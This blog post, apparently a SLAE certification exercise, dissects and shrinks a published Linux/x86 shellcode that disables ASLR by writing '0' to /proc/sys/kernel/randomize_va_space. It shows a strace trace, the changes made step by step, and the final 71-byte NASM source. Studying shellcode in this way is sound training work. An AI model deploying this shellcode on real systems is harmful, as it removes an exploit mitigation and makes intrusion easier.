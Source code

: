 ```yaml
---
layout: post
title: "Linux/x86 - Disable ASLR Shellcode (71 bytes)"
date: 2017-05-07 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 6.1_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---

**_Note_: A modified version has been published in exploit-db:[ https://www.exploit-db.com/exploits/41969/](https://www.exploit-db.com/exploits/41969/) (calls setruid first)**  
  
In assignment 6, the requirement is polymorphing 3+ shellcodes off shellstorm.org or exploit-db.com_, _which basically means modifying the code so it doesn't look like the original yet has the same functionality. This is the first post out of three.  
  
  

## Linux/x86 - Disable ASLR Shellcode (71 bytes)

First shellcode I will dissect is a disable ASLR one by Mohammad Reza Ramezani, shellcode can be found [here](https://www.exploit-db.com/exploits/36637/).  
  
Let's compile this code and instead of debugging it, we'll use strace tool  

```console
abatchy@ubuntu:~/Desktop/workspace$ gcc 36637.c -fno-stack-protector -z execstack -o 36637.out  
abatchy@ubuntu:~/Desktop/workspace$ sudo su  
root@ubuntu:/home/abatchy/Desktop/workspace# strace ./36637.out   
execve("./36637.out", ["./36637.out"], [/* 26 vars */]) = 0  
brk(0)                                  = 0x804b000  
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fd8000  
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)  
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3  
fstat64(3, {st_mode=S_IFREG|0644, st_size=79136, ...}) = 0  
mmap2(NULL, 79136, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fc4000  
close(3)                                = 0  
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3  
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0P\234\1\0004\0\0\0"..., 512) = 512  
fstat64(3, {st_mode=S_IFREG|0755, st_size=1763068, ...}) = 0  
mmap2(NULL, 1768060, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7e14000  
mmap2(0xb7fbe000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xb7fbe000  
mmap2(0xb7fc1000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb7fc1000  
close(3)                                = 0  
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7e13000  
set_thread_area({entry_number:-1 -> 6, base_addr:0xb7e13940, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0  
mprotect(0xb7fbe000, 8192, PROT_READ)   = 0  
mprotect(0x8049000, 4096, PROT_READ)    = 0  
mprotect(0xb7ffe000, 4096, PROT_READ)   = 0  
munmap(0xb7fc4000, 79136)               = 0  
**open("/proc/sys/kernel/randomize_va_space", O_RDWR) = 3  
write(3, "0\n", 2)                      = 2  
_exit(0)                                = ?**  
+++ exited with 0 +++  
```
**_Note_: DO NOT run code directly without investigating it first and making sure
it's totally safe (I did).  
  
So 3 calls are what matter to us:  
  
1. `open("/proc/sys/kernel/randomize_va_space", O_RDWR)`  
2. `write(3, "0\n", 2)`
3. `exit(0)`  
  
There seem to be room for improvement, so let's see if we can make this code significantly smaller.  

## 1\. `open("/proc/sys/kernel/randomize_va_space", O_RDWR)`

  
Minor refactoring:
```nasm
xor eax,eax  
jmp filename  
shellcode:  
pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
mov byte [ebx + 35],al  
push byte 5  
pop eax  
push byte 2  
pop ecx  
int 80h  
```    

We don't need `O_RDWR` permissions, but I tried making use of that with no avail.  
  

## 2\. `write(fd, "0\n", 2)`

  
1\. `mov ebx, eax`: Since we don't care about EAX, `xchg eax,ebx` is one byte less.  
  
2\. `push byte 2 - pop edx`: ECX already contains 2, let's exchange them instead.  
  
3\. `jmp-call-pop`: Got rid of it and replaced it with a push '0'.  
  
```nasm
xchg eax, ebx   ; One byte less than mov ebx, eax  
push byte 4  
pop eax  
xchg ecx, edx   ; ECX already contains 2  
push byte 0x30  
mov ecx, esp    ; ECX now points to "0"  
int 80h         ; EAX will now contains 1  
```

## 3\. `exit(0)`

Is it a big deal exiting with non-zero status? Not really, so let's not nullify EBX (it currently contains the file descriptor).  
  
Can we do better? Yes! `write()` returns number of bytes written, which should be 1 (we only wrote "0"), so we can exit directly!  

```nasm
int 80h         ; Yep, that's it  
```

## Final shellcode

```nasm
section .text  
global _start  
  
_start:  
  
;  
; open("/proc/sys/kernel/randomize_va_spaceX", O_RDWR)  
;  
xor eax,eax  
jmp aslr_file  
shellcode:  
pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
mov byte [ebx + 35],al  
push byte 5  
pop eax  
push byte 2  
pop ecx  
int 80h  
  
;  
; write(fd, '0', 1)  
;  
xchg eax, ebx   ; One byte less than mov ebx, eax  
push byte 4  
pop eax  
xchg ecx, edx   ; ECX already contains 2  
push byte 0x30  
mov ecx, esp    ; ECX now points to "0"  
int 80h         ; EAX will now contains 1  
  
;  
; exit(0)  
;  
int 80h         ; Yep, that's it  
  
aslr_file:  
call shellcode  ; Skips the filename and avoids using JMP  
db '/proc/sys/kernel/randomize_va_spaceX'  
``` 

Shellcode size has been cut down to 71 bytes (13 bytes less than original code).  
  
\- Abatchy

